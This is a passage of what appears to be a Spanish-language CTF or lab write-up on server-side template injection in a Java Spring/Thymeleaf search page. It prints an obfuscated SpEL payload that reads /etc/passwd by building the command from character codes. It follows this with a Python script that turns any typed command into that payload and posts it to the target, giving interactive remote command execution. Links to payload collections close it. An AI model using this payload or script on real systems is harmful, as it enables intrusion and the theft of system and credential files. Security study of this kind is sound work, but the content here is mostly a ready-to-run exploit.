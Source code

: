 
Este es parte de las pruebas. 
{:.note}

***

```bash
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
Este one-liner lo encuentras en la seccion de java retrieve /etc/passwd. 
{:.note}

***
### Pimera opccion.

```Python
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup
class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        comando = args
        decimales = []

        for i in comando:
            decimales.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % decimales[0]

        for i in decimales[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        requer = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(requer.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
            print("%s: command not found" % (args))

RCE().cmdloop()
```
Exploit en pyton para entablar una shell contra el servidor.
{:.note}


[Hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[Blog]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings
[recurso]: https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
[tty]: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys 